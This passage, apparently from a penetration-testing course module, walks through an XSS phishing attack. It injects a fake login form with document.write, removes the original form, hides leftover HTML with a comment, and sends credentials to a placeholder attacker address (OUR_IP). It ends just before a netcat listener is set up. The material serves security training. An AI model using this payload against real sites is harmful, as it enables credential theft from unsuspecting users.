 So, we can now use this id with the `remove()` function to remove the URL form:

Code: javascript

```javascript
document.getElementById('urlform').remove();
```

Now, once we add this code to our previous JavaScript code (after the `document.write` function), we can use this new JavaScript code in our payload:

Code: javascript

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

When we try to inject our updated JavaScript code, we see that the URL form is indeed no longer displayed:

![](https://academy.hackthebox.com/storage/modules/103/xss\_phishing\_injected\_login\_form\_2.jpg)

We also see that there's still a piece of the original HTML code left after our injected login form. This can be removed by simply commenting it out, by adding an HTML opening comment after our XSS payload:

Code: html

```html
...PAYLOAD... <!-- 
```

As we can see, this removes the remaining bit of original HTML code, and our payload should be ready. The page now looks like it legitimately requires a login:

![](https://academy.hackthebox.com/storage/modules/103/xss\_phishing\_injected\_login\_form\_3.jpg)

We can now copy the final URL that should include the entire payload, and we can send it to our victims and attempt to trick them into using the fake login form. You can try visiting the URL to ensure that it will display the login form as intended. Also try logging into the above login form and see what happens.

***

### Credential Stealing

Finally, we come to the part where we steal the login credentials when the victim attempts to log in on our injected login form. If you tried to log into the injected login form, you would probably get the error `This site can’t be reached`. This is because, as mentioned earlier, our HTML form is designed to send the login request to our IP, which should be listening for a connection. If we are not listening for a connection, we will get a `site can’t be reached` error.

So, let us start a simple `netcat` server and see what kind of request we get when someone attempts to log in through the form. To do so, we can start listening on port 80 in our Pwnbox, as follows:
